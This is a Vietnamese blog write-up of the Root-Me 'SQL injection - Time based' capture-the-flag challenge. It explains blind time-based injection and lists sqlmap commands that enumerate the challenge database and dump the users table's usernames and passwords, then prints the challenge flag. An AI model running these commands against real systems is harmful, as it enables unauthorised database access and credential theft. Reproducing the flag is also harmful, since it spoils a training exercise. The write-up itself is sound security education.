 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: SQL injection - Time based
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
    - SQL Injection 
---
```


# __SQL injection - Time based__

<span>
:octicons-calendar-24: May 03, 2023

</span>

---


## __Tài nguyên và link challenge__

Tài nguyên của challenge này tại [https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based)

Link challenge này tại [:octicons-arrow-right-24: http://challenge01.root-me.org/web-serveur/ch40/][http://challenge01.root-me.org/web-serveur/ch40/]

  [http://challenge01.root-me.org/web-serveur/ch40/]: http://challenge01.root-me.org/web-serveur/ch40/

## __Tổng quan__

Trong challenge này, mục tiêu của ta là lấy được password admin.

> __Time-based SQL Injection__ là một kỹ thuật SQL Injection suy luận dựa trên việc gửi một truy vấn SQL đến cơ sở dữ liệu, buộc cơ sở dữ liệu phải đợi một khoảng thời gian xác định (tính bằng giây) trước khi phản hồi. Về định nghĩa thì hơi khó hiểu, tôi sẽ ví dụ như sau:

> Ví dụ: Ta cần check password một tài khoản có username là admin bằng cách brute force

> - Ta biết password có n kí tự và đặt là S[n]

> - Ta sẽ gửi request lần lượt từ S[0] -> S[n-1], nếu so khớp S[0] trùng với S[0] trong password thì cho nó ngủ 5s :octicons-arrow-right-24: với thời gian phản hồi như thế, ta có thể biết được kí tự S[0] là kí tự gì. Tương tự đến S[n-1].

## __Kịch bản tấn công__
### Bước 1: Kiểm tra website

Challenge này cung cấp cho ta 2 website: 1 cho việc login tài khoản, 1 cho việc xem danh sách tài khoản

Có thể thấy, sau một vài thao tác truy cập danh sách tài khoản thì đều yêu cầu login tài khoản mới được quyền xem

### Bước 2: Khai thác website

Đầu tiên, ta dùng sqlmap để quét website và đặt thời gian cho CSDL phản hồi là 10s bằng lệnh `sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 --dbs`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-time-based-01.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

???+ question "Chậm lại và suy nghĩ 1"

    Nếu không dùng `--time-sec=10`, liệu còn cách nào có thể quét ra database public không?

??? success "Giải quyết chậm lại suy nghĩ"

    Tôi đã nhúng 1 hình ảnh thể hiện cách giải nhằm đâu đó trong website này, bạn đọc tìm thử nhé. Cách tìm giống như bài nào đó phía trên :smile_cat: :smile_cat: :smile_cat:
Roài, ta tìm table trong database public thôi nào !!!!!

Dùng lệnh `sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public --tables`

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-time-based-02.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

Từ đây, ta thấy được table users, tiến hành lấy các cột ở table và cuối cùng dump dữ liệu, ta sẽ được flag

<div class="result" markdown>

``` shell linenums="1"
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users --columns
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users -C id,email,usermame,password --dump
```

</div>

<figure markdown>
  ![Image title](/rootme/web-server/sql-injection/images/sql-injection-time-based-03.png#zoom)
  <figcaption>Hình ảnh mô tả kết quả câu lệnh</figcaption>
</figure>

!!! success "__Flag__"
    T!m3B@s3DSQL!
